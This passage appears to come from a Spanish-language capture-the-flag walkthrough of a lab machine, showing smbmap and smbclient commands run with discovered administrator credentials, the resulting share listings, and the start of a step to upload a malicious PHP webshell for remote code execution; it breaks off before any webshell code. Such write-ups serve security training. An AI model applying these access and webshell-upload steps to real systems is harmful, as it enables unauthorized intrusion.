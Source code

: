 ### Acceso con credenciales de administrador
Nos enfocaremos en ese usuario `administrador` para repetir el proceso y ver qué recursos compartidos tiene:

```bash
smbmap -H 172.17.0.2 -u "administrador" -p "Adm1nP4ss2024"
```

Veremos el siguiente resultado:
```
        Disk                                                         Permissions     Comment
    ----                                                         -----------     -------
    myshare                                              READ ONLY       Carpeta compartida sin restricciones
    backup24                                             NO ACCESS       Privado
    home                                                 READ, WRITE     Produccion
    IPC$                                                 NO ACCESS       IPC Service (EseEmeB Samba Server)
[\] Closing connection
```

Vemos que tenemos la carpeta `home` disponible, así que nos conectaremos como cliente:

```bash
smbclient //172.17.0.2/home -U administrador%Adm1nP4ss2024
```

Y vemos qué archivos tenemos:

```
smb: \> ls
.                                   D        0  Sun Sep  7 14:48:21 2025
..                                  D        0  Sun Sep  7 14:48:21 2025
info.php                            N       21  Sun Oct  6 03:32:50 2024
styles.css                          N      263  Sun Oct  6 05:22:06 2024
index.php                           N     3543  Sun Oct  6 16:28:45 2024
productos.php                       N     5229  Sun Oct  6 05:21:48 2024
back.png                            N   463383  Sun Oct  6 03:59:29 2024

                58413036 blocks of size 1024. 37124180 blocks available
smb: \> 
```

Y vemos que efectivamente son los mismos archivos que encontramos con el fuzzing.

## Explotación RCE

### Creación de webshell
Lo que podemos hacer ahora es subir un archivo PHP malicioso usando `smbclient` para escalar esto a un RCE (Remote Code Execution).

Regresaremos a nuestra terminal y crearemos nuestro PHP:

```bash
touch pwned.php
nano pwned.php
```
